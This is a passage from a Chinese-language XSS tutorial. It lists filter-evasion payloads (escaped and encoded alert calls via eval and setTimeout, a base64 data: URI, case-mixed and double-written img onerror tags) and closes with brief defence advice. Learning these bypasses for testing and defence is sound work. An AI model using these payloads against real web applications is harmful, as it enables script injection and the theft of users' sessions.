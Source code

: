 ```
使用\u0061\u006C\u0065\u0072\u0074代替alert
使用setTimeout('\141\154\145\162\164\050\061\051')代替alert(1)
使用setTimeout('\x61\x6C\x65\x72\x74\x28\x31\x29')代替alert(1)
setTimeout('\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029')代替alert(1)
使用eval("\141\154\145\162\164\050\061\051")代替alert(1)
使用eval("\x61\x6C\x65\x72\x74\x28\x31\x29")代替alert(1)
使用eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")代替alert(1)
使用window['setT'+'imeout']代替setTimeout
使用window['ev'+'al']代替eval
```

> 浏览器的解码顺序是html解码------>url解码------>js解码；所以我们可以对payload先进行unicode编码,在进行url编码,在进行html编码后在发送出去；例如：`<a href=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#37;&#53;&#99;&#37;&#55;&#53;&#37;&#51;&#48;&#37;&#51;&#48;&#37;&#51;&#54;&#37;&#51;&#49;&#37;&#53;&#99;&#37;&#55;&#53;&#37;&#51;&#48;&#37;&#51;&#48;&#37;&#51;&#54;&#37;&#52;&#51;&#37;&#53;&#99;&#37;&#55;&#53;&#37;&#51;&#48;&#37;&#51;&#48;&#37;&#51;&#54;&#37;&#51;&#53;&#37;&#53;&#99;&#37;&#55;&#53;&#37;&#51;&#48;&#37;&#51;&#48;&#37;&#51;&#55;&#37;&#51;&#50;&#37;&#53;&#99;&#37;&#55;&#53;&#37;&#51;&#48;&#37;&#51;&#48;&#37;&#51;&#55;&#37;&#51;&#52;&#40;&#49;&#41;>Click</a>`

## Base64编码绕过

```
对href=""和src=""里面的javascript:alert(1)可以使用data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==进行替换
使用setTimeout(window['at'+'ob']('YWxlcnQoMSk='))代替alert(1)
使用eval(window['at'+'ob']('YWxlcnQoMSk='))代替alert(1)
```

## 其他绕过

- 使用`/`代替`空格`：`<img/src="x"/onerror=alert("xss");>`
- 进行大小写绕过：`<ImG sRc=x onerRor=alert("xss");>`
- 进行双写绕过：`<imimgg srsrcc=x onerror=alert("xss");>`
- 利用字符拼接进行绕过：`<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">`
- 使用反引号代替双引号、单引号
- 使用无闭合标签进行绕过。

# XSS漏洞防御

1. 不信任用户提交的任何内容，对所有用户提交内容进行可靠的输入验证，包括对URL、查询关键字、HTTP头、REFER、POST数据等，仅接受指定长度范围内、采用适当格式、采用所预期的字符的内容提交，对其他的一律过滤。尽量采用POST而非GET提交表单；对“<”，“>”，“；”，“””等字符做过滤；任何内容输出到页面之前都必须加以encode，避免不小心把htmltag显示出来。

2. 使用HTTPonly的cookie。

   


